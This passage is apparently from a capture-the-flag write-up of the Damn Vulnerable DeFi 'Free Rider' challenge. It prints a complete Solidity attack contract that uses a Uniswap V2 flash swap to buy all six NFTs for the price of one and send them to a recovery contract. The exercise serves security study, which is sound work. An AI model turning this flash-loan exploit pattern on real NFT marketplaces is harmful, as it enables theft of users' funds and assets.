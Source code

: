 ```solidity

    emit NFTBought(msg.sender, tokenId, priceToPay);
}
```

With these vulnerabilities in mind, we only need to leverage uniswapV2Call to obtain 15 ETH for the initial call, allowing us to execute the attack.


<details>
  <summary> Code </summary>

 
```solidity
contract Attack {

    FreeRiderRecoveryManager public immutable recoveryContract;
    FreeRiderNFTMarketplace public immutable marketplace;
    DamnValuableNFT public immutable nft;
    IUniswapV2Pair public immutable pair;
    IWETH public immutable weth;
    address immutable me;

    uint256[] private tokenIds = [0, 1, 2, 3, 4, 5];

    constructor(address _pair, address payable _marketplace, address _weth, address _nft, address _recovery, address _me){
        pair = IUniswapV2Pair(_pair);
        marketplace = FreeRiderNFTMarketplace(_marketplace);
        nft = DamnValuableNFT(_nft);
        weth = IWETH(_weth);
        recoveryContract = FreeRiderRecoveryManager(_recovery);
        me = _me;
    }

    receive() external payable {}

    function attack() external payable {
        pair.swap(15e18, 0, address(this), '0x0');
    }


    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
        weth.withdraw(15e18);
        marketplace.buyMany{value: 15e18}(tokenIds);
        weth.deposit{value: 15e18 + 0.05 ether}();
        weth.transfer(address(pair), 15e18 + 0.05 ether);
        for(uint256 i; i < 6; i++){
            nft.safeTransferFrom(address(this), address(recoveryContract), i, abi.encode(me));
        }
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) external pure returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }
}

function test_freeRider() public checkSolvedByPlayer {
```